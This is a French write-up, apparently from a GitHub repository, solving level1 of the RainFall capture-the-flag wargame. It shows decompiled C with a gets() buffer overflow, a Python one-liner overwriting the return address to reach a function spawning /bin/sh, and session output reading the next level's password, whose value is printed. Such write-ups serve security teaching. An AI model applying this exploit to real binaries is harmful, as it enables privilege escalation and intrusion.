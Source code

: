 Read also: [./Resources/README.md](./Resources/README.md)

# Source
<details>
  <summary>Explication</summary>

On se connecte en ssh au level1 puis on récupère le fichier pour le décompiler (avec scp). 
https://dogbolt.org/?id=621e2f06-c90f-42e1-b556-a4a225fc4b1b 

```
level1@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level1 level1   80 Mar  6  2016 .
dr-x--x--x  1 root   root 340 Sep 23  2015 ..
-rw-r--r--  1 level1 level1  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level1 level1 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1
-rw-r--r--+ 1 level1 level1   65 Sep 23  2015 .pass
-rw-r--r--  1 level1 level1  675 Apr  3  2012 .profile
```
</details>

```c
//----- (08048444) -----
void run(void) {
  fwrite("Good... Wait what?\n",1,0x13,stdout);
  system("/bin/sh");
  return;
}
//-----


void main(void) {
  char local_50[76]; // buffer overflow
 
  gets(local_50);
  return;
}
```

# Explication

On obtient l’adresse de run directement sur l’application Gidhra ou en commentaire au-dessus
de la fonction sur dogbolt avec Hex-Rays. On inverse l’adresse hexadécimale pour faire la
conversion big endian/little endian.

Pour utiliser l’overflow il faut 76 caractères, puis mettre l’adresse, comme ceci :

```
python -c 'print "a" * 76 + "\x44\x84\x04\x08"' > /tmp/level1; (cat /tmp/level1; cat) | ./level1
```

(Ensuite dans la zone de saisie, il faut saisir le `cat /home/user/level2/.pass`)

```
level1@RainFall:~$ python -c 'print "a" * 76 + "\x44\x84\x04\x08"' > /tmp/level1; (cat /tmp/level1; cat) | ./level1
Good... Wait what?
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

## Ressources :

 - Un article intéressant : https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/ 
